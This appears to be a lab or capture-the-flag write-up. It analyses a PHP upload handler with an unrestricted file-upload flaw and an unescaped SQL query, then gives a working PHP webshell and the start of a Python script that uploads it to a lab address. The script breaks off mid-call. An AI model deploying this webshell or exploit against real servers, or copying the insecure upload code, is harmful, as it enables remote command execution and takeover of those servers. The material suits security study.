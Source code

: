 ```php
            if (file_exists("upload/" . $_FILES["file"]["name"]))
            {
                unlink("upload/" . $_FILES["file"]["name"]);
            }
            else
            {
                $pic = $_FILES["file"]["name"];
                $conv = explode(".", $pic);
                $ext = $conv['1'];

                move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $user . "." . $ext);
                $url = $user . "." . $ext;

                $query = "update members set pic=1, picName='$url' where id='$user'";
                if ($upl = $mysqli->query($query))
                {
                    header("location: profile/i.php");
                }
            }
        }
    }
    else {
      header("location: /profile/i.php");
    }
}
?>
```

It seems like there is a vulnerability in this code by following the these steps:

1. Set the `id` URL parameter to a value
2. Send a POST to `/upload.php` meeting the following url-encoded data:
   1. Set `pupload` to something
   2. Set `file` to an uploaded file meeting the following requirements:
      1. MIME type set to `image/gif` (or one of the approved ones from the `if` statement)
      2. Make sure file size is less than 20000000000000 bytes (lol)
      3. Make sure file ends with a valid extension from the `$allowedExts` array

If the above requirements are met, then the file should be uploaded to `/upload/$id.$ext`, which are values that the user can control. This means this exploit will likely allow for a webshell to be uploaded with the following Python:

```python
import io
import requests

PHP = """
<?php
if (isset($_REQUEST['c'])) {
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  } 
}
?>
"""

# upload shell
r = requests.post('http://10.10.10.198:8080/upload.php', params={
```